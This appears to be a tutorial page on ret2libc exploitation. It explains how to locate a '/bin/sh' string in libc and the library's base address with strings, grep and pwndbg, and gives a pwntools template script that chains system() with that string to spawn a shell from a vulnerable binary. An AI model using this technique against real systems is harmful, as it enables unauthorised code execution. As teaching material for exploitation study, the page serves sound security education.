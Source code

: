 #### Finding a Useful Reference 

+ When talking about a reference we refer to a useful string that we may incorporate into our system call
+ Such strings are like
    + `"/bin/sh"`
    + `"/bin/bash"`
    + `"/bin/zsh"`
    + `"/bin/fish"`
+ There are a few ways to get such references
    + Environment variables
    + Existing Stack Address
    + libc
+ We hope to find a reference to such strings in libc as it is the most reliable of the methods
+ To do so we can use strings with a grep pipe

`strings strings -a -t x /lib/<path-to-libc> | grep "/bin/sh"`

+ This should return an address in hex which we can add to the start of libcs address range in its address space
+ The starting address of libc in the processes memory can be obtained with gdb as follows

`pwndbg> info proc map`

+ Taking the first address for libc to appear in the list as the address
+ Confirm that this reference does indeed lead to the reference with

`pwndbg> x/s <libc-hex-address> + <reference address>`

+ Now lets look at how we inject this payload into the running binary

##### Writing The Exploit With Pwntools

+ Implementing the above approaches we obtain an exploit script similar to the following
+ Note replace all `<...>` with appropriate values from above

```python

from pwn import *

## Assumes x86-32

proc_s = process('./<binary>')                                    # <-- Replace with your binary

padding = b'<padding/offset-bytes>'
system_address = p32(<0xsystem-address>)
eax_system = b'AAAA'                                              # <-- Dummy Function Return Pointer
bin_reference = p32(<0xlibc-offset-reference>)                    # <-- libc address of reference 

payload = padding + system_address + eax_system + bin_reference

# <-- Insert recvlines() as needed -->
proc_s.sendline(payload)
proc_s.interactive()

```
